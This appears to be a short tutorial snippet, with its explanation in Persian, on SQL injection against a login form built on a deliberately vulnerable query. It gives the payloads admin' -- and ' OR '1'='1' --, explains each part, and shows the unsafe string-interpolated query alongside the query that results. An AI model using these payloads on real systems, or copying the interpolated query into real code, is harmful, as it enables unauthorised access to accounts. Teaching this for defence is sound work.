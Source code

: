 ```
admin' --
123
```

```
' OR '1'='1' --
123
```

' - اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود

OR '1'='1' - یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)

-- - یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد

نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).

```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```
